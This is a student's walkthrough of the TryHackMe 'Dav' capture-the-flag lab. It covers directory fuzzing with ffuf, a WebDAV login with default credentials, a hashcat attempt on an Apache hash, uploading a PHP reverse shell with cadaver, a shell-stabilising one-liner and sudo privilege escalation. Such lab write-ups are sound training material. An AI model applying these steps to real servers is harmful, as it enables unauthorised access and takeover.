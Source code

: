 ```yaml
---
Title: SWS101 dav
categories: [SWS101, Try_Hack_Me(CTF)]
tags: [SWS101]
---
```

## Topic: Dav
---

Hello everyone, I hope you all are doing good! In this page we will be learning about the Dav challenges from Try Hack Me.

## Target IP Address


## Enumeration

### Ping

I pinged the target machine to check whether I can communicate with the target machine or not using the ping command and the target IP address.

![alt text](../dav_ctf/ping.png)

Yes, the machine is online and I can communicate with it.

Then, I scaned the target machine using Nmap to identify open ports and services.

### Nmap

I scanned the machine to see the open ports;



### result

* 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

### Web 

This is what I got when I visited the target IP address in the browser.

![alt text](../dav_ctf/ip.png)

It is about default Apache website. 

Then I brute forced the directories using ffuf and found the following directories.

    rybnorbu@lenevo-ranjung:~/Downloads$ ffuf -w /home/rybnorbu/SecLists-master/Discovery/Web-Content/common.txt -u http://10.10.189.52//FUZZ

            /'___\  /'___\           /'___\       
        /\ \__/ /\ \__/  __  __  /\ \__/       
        \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
            \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

        v1.1.0
    ________________________________________________

    :: Method           : GET
    :: URL              : http://10.10.189.52//FUZZ
    :: Wordlist         : FUZZ: /home/rybnorbu/SecLists-master/Discovery/Web-Content/common.txt
    :: Follow redirects : false
    :: Calibration      : false
    :: Timeout          : 10
    :: Threads          : 40
    :: Matcher          : Response status: 200,204,301,302,307,401,403
    ________________________________________________

    .htpasswd               [Status: 403, Size: 296, Words: 22, Lines: 12]
    .htaccess               [Status: 403, Size: 296, Words: 22, Lines: 12]
    .hta                    [Status: 403, Size: 291, Words: 22, Lines: 12]
    index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376]
    server-status           [Status: 403, Size: 300, Words: 22, Lines: 12]
    webdav                  [Status: 401, Size: 459, Words: 42, Lines: 15]
    :: Progress: [4727/4727] :: Job [1/1] :: 73 req/sec :: Duration: [0:01:04] :: Errors: 0 ::

I found the webdav directory. When I visited the webdav directory I found the login page.

![alt text](../dav_ctf/ip_dav.png)

![alt text](../dav_ctf/webdav.png)

So, after some research I found that the default credentials for webdav is `wampp:xampp`. I referenced this from [here](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html).

![alt text](../dav_ctf/web.png)

I logged in with this credentials and found the site.

![alt text](../dav_ctf/found.png)

Inside the passwd.dav. I found this:

    wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91

I used hash-identifier to identify the hash type.

![alt text](../dav_ctf/hash_id.png)

I tried to crack the hash but failed. I used hashcat to crack the hash.

    rybnorbu@lenevo-ranjung:~/Desktop/Hacking/hashCrask$ hashcat -m 1600 -a 0 hash_dav.txt rockyou.txt

This is the output of the hashcat.

    Session..........: hashcat                                
    Status...........: Quit
    Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
    Hash.Target......: $apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
    Time.Started.....: Sat Jun  1 17:59:50 2024 (41 secs)
    Time.Estimated...: Sat Jun  1 18:11:27 2024 (10 mins, 56 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:    20559 H/s (12.19ms) @ Accel:128 Loops:250 Thr:1 Vec:8
    Recovered........: 0/1 (0.00%) Digests
    Progress.........: 850944/14344384 (5.93%)
    Rejected.........: 0/850944 (0.00%)
    Restore.Point....: 850944/14344384 (5.93%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-1000
    Candidate.Engine.: Device Generator
    Candidates.#1....: montero02 -> momo5390
    Hardware.Mon.#1..: Temp: 87c Util: 91%

    Started: Sat Jun  1 17:59:30 2024
    Stopped: Sat Jun  1 18:00:33 2024


I found a resource that teach to upload a shell using `cadaver`. I used this tool cadaver to upload a reverse shell.

This is how to use cadaver to upload a shell.

![alt text](../dav_ctf/put.png)

Same like this first I logged into the site inside the terminal and then uploaded the shell. The shell I used is `r_shell.php`. I uploaded the shell in the webdav directory.

![alt text](../dav_ctf/rshell.png)

I have successfully uploaded the shell.

![alt text](../dav_ctf/rshell_uploaded.png)

Now, I started the listener in my machine and visited the shell in the browser.

![alt text](../dav_ctf/userfalg.png)

I have used a snippet of code to stabilize the shell. 

    python -c 'import pty; pty.spawn("/bin/bash")'

This is the code I used to stabilize the shell. And I got the user flag.

### Privilege Escalation Phase

I checked the privileges of the user using the command `sudo -l`.

![alt text](../dav_ctf/privilage.png)

From this I got a hint that I can get the root access by running the command `sudo /bin/bash` without password. So, I ran the command `sudo /bin/bash` and got the root access. I used cat as root without password.

![alt text](../dav_ctf/rootflag.png)

Finally, I got the root flag.


    Thank You!!


